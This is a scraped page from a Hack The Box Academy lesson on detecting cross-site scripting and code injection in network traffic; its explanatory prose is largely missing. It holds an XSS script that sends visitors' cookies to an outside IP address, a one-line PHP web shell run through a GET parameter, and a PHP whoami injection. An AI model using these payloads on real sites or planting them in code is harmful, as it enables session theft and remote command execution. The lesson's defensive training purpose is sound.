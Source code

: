 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/229/section/2465
// Platform Version: V1
// Module ID: 229
// Module Name: Intermediate Network Traffic Analysis
// Module Difficulty: Easy
// Section ID: 2465
// Section Title: Cross-Site Scripting (XSS) & Code Injection Detection
// Page Title: Hack The Box - Academy
// Page Number: 14
-->

# Cross-Site Scripting (XSS) & Code Injection Detection

**Module Name:** Intermediate Network Traffic Analysis **Page Number:** 14

#### 

#### INTERMEDIATE NETWORK TRAFFIC ANALYSIS

# Cross-Site Scripting (XSS) & Code Injection Detection

![https://academy.hackthebox.com/storage/modules/229/1-XSS.png](https://academy.hackthebox.com/storage/modules/229/1-XSS.png)

![https://academy.hackthebox.com/storage/modules/229/2-XSS_.png](https://academy.hackthebox.com/storage/modules/229/2-XSS_.png)

``` javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>
```

``` php
<?php system($_GET['cmd']); ?>
```

``` php
<?php echo `whoami` ?>
```

#### Preventing XSS and Code Injection

# 

# 

#### Questions

####